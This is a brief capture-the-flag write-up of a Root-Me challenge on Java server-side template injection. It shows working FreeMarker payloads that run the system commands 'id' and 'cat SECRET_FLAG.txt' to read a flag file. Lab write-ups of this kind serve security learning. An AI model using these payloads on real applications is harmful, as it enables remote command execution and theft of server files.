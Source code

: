 # Java - Server-side Template Injection

Reference:

https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Server-Side%20Template%20Injection%20RCE%20For%20The%20Modern%20Web%20App%20-%20BlackHat%2015.pdf?\_gl=1_rwpkva_\_ga_NTM2MDg4NDI5LjE2NjExMzM0Njc._\_ga\_SRYSKX09J7\*MTY2MjM1ODc2My40OS4xLjE2NjIzNTkyMTguMC4wLjA.

***

Objective: Exploit the vulnerability in order to retrieve the validation password in the file SECRET\_FLAG.txt.

It is server site template injection for java, then I searched it in hacktricks.

So I entered this line:

`${class.getResource("").getPath()}`

And saw this request:

meaning there is some filter.

And did send some of commands succesively:

`${"freemarker.template.utility.Execute"?new()("id")}`

This one worked obviously. So sent this:

`${"freemarker.template.utility.Execute"?new()("cat SECRET_FLAG.txt")}`

I got the answer.
